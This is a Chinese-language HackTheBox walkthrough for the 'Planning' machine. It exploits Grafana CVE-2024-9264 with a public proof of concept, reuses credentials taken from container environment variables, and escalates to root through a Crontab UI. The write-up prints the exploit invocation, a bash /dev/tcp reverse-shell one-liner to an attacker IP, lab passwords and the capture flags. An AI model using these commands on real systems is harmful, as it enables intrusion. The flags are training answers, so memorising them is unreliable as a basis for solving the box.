 ```yaml
---
title: HackTheBox | Planning (Easy) Write Up
published: 2025-08-14
description: 'HackTheBox | Planning (Easy) Write Up'
image: 'images (1).jpg'
tags: [HTB,Writeup]
category: 'Writeup'
draft: false 
lang: ''
---
```


# HackTheBox | Planning (Easy) Write Up

## 題目資訊

**Target IP Address:**
10.10.11.68

**Machine Information:**
As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r

## STEP 1. 資訊蒐集

### 錯誤方向
我一開始是用rustscan快速掃目標IP的port
```bash
$ rustscan -a 10.10.11.68 -r 1-65535

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

然後再用nmap去詳細檢查22,80 port資訊
```bash
$ nmap -A -p22,80 -sC -sV 10.10.11.68

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

發現訪問不了`http://planning.htb/`因為是靶機環境的vhost。

解法為在/etc/hosts加入`10.10.11.68 planning.htb`，可以成功訪問，然後用dirsearch去看目錄

```bash
$ dirsearch -u http://planning.htb/

Target: http://10.10.11.68/

[04:46:20] Starting:
[04:46:24] 301 -  178B  - /js  ->  http://planning.htb/js/
[04:46:42] 200 -   12KB - /about.php
[04:47:16] 200 -   10KB - /contact.php
[04:47:18] 301 -  178B  - /css  ->  http://planning.htb/css/
[04:47:33] 301 -  178B  - /img  ->  http://planning.htb/img/
[04:47:38] 403 -  564B  - /js/
[04:47:40] 403 -  564B  - /lib/
[04:47:40] 301 -  178B  - /lib  ->  http://planning.htb/lib/
```

接下來，我花很多時間去翻裡面東西，但不存在可利用的資訊，到此我去翻別人WriteUp才發現漏掉了掃Domain。

### 正確方向

這邊是使用gobuster去掃vhost

```
$ gobuster vhost -u http://planning.htb -w /usr/share/seclists/Discovery/DNS/combined_subdomains.txt --append-domain -t 50
```

過段時間可以找到`http://granfana.planning.htb`，接著修改`/etc/hosts`成`10.10.11.68 granfana.planning.htb`，即可成功訪問。

![image](https://hackmd.io/_uploads/ByxW4m9uge.png)

## STEP 2.CVE-2024–9264 on Grafana v11.0.0

這邊可以注意到最下方version 11，上網查資料發現存在CVE，可以直接RCE，這裡為我使用的Exploit。
https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

Terminal 1:
```
$ python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.123 --reverse-port 4444
```

Terminal 2:
```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.123] from (UNKNOWN) [10.10.11.68] 44218
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# /bin/bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
```

到此我們成功拿到一個Container的機器。

## STEP 3.權限提升至 User

經過一陣檢查可以從env裡面可以看到User帳密(13、14行)
```=
# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

`enzo/RioTecRANDEntANT!`

```
$ ssh enzo@10.10.11.68
enzo@10.10.11.68's password:

enzo@planning:~$ ls
user.txt
enzo@planning:~$ cat user.txt
4177a6f2f1ffa41a3b099217ca6a7610
```

## STEP 4.權限提升至 Root

也是經過一陣檢查可以發現cronjobs運行在port 8000，跟明文呈現的密碼`P4ssw0rdS0pRi0T3c`。

![image](https://hackmd.io/_uploads/BkyCGV5_xx.png)

接下來就訪問http://127.0.0.1:8000/，輸入`root/P4ssw0rdS0pRi0T3c`

發現Crontab UI介面可以以root執行任意command，構造一個reverse shell就可以提權至root。

![image](https://hackmd.io/_uploads/H1vREVcOel.png)

```
bash -c 'exec bash -i >& /dev/tcp/10.10.14.123/4444 0>&1'
```

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.123] from (UNKNOWN) [10.10.11.68] 48142
bash: cannot set terminal process group (1193): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@planning:/# cat /root/root.txt
cat /root/root.txt
692d2a5c422baaa8a483e46f6c89502a
```

https://labs.hackthebox.com/achievement/machine/2465396/660